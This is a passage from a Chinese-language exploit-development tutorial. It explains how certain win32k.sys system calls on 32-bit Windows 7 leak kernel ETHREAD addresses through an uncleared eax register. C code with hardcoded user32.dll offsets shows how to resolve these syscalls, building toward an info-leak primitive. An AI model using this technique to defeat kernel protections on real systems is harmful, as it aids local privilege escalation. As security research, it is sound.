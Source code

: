 6、如果SeQueryInformationToken成功，将读取令牌完整性级别，并与0x2000（这个值表示中等完整性级别）进行比较

7、如果令牌完整性级别低于0x2000则返回1，否则返回0

Alex Ionescu在他的博客上提供了这个函数的逆向版本。 每次该函数被调用时，它就返回1，然后调用函数将返回前面提到的错误代码。

<br>

**Win32k.sys系统调用信息泄露  ****Windows 7 32 bit**

这个问题最初是由j00ru在发布白皮书几个月前发现的，并在原始博客文章中有更深入的讨论。

问题是，win32k.sys中的一些系统调用的返回值是小于32位的，例如VOID或USHORT，所以，在返回之前没有清除eax寄存器。 由于各种原因，在调用返回之前，内核地址在eax中结束，因此在调用之后立即读取eax，这些地址就会被完全暴露或部分暴露。

例如NtUserModifyUserStartupInfoFlags就完全暴露了ETHREAD结构的地址，下面你可以看到，在该函数返回之前调用了UserSessionSwitchLeaveCrit，这似乎向eax中加载了一个指向ETHREAD的指针，但是，由于函数返回之前没有清空寄存器的内容，导致这个地址完整保留了下来。

[![](./img/85614/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01845d258b5a9bb93d.png)

要想使用这些系统调用来泄漏地址，我们首先需要添加标准include和Winddi，因为它们定义了将要调用的函数使用的一些GDI（图形设备接口）的结构。

```
#include "stdafx.h"
#include &lt;Windows.h&gt;
#include &lt;Winddi.h&gt;
```

我决定，通过使用其用户空间包装器（在这种情况下是user32.dll和gdi32.dll）来调用这些系统调用，因此我需要获取DLL中的函数的偏移量。为此，我把该dll拖拽到IDA中，将反汇编重定位到0，然后过滤函数列表以寻找目标函数。这样，找到的函数的起始地址是我需要的dll的偏移量。

我选择了一个完全泄漏ETHREAD的函数，以及一个部分泄漏它的函数。类似的方法同样适用于W32THREAD。

```
//0x64D4B - NtUserModifyUserStartupInfoFlags
typedef DWORD(NTAPI * lNtUserModifyUserStartupInfoFlags)(DWORD Set, DWORD Flags);
//0xA2F4 - NtUserGetAsyncKeyState
typedef DWORD(NTAPI *lNtUserGetAsyncKeyState)(DWORD key);
 
//0x47123 - NtGdiFONTOBJ_vGetInfo
typedef VOID(NTAPI * lNtGdiFONTOBJ_vGetInfo)(FONTOBJ *pfo,ULONG cjSize,FONTINFO *pfi);
//0x47263 - NtGdiPATHOBJ_vEnumStartClipLines
typedef VOID(NTAPI * lNtGdiPATHOBJ_vEnumStartClipLines)(PATHOBJ *ppo, CLIPOBJ *pco, SURFOBJ *pso, LINEATTRS *pla);
```

为了调用这些函数，我们首先需要一个处理它们所在的DLL的句柄，所以，我们首先设法得到user32.dll的句柄。

```
HMODULE hUser32 = LoadLibraryA("user32.dll");
if (hUser32 == NULL) {
    printf("Failed to load user32");
    return 1;
}
```

如果上述代码成功运行，我们就可以把第一个函数的偏移量与HMODULE的值相加，从而获得函数入口点，然后就可以将其转换为正确的类型了。

```
lNtUserGetAsyncKeyState pNtUserGetAsyncKeyState = (lNtUserGetAsyncKeyState)((DWORD_PTR)hUser32 + 0xA2F4);
```
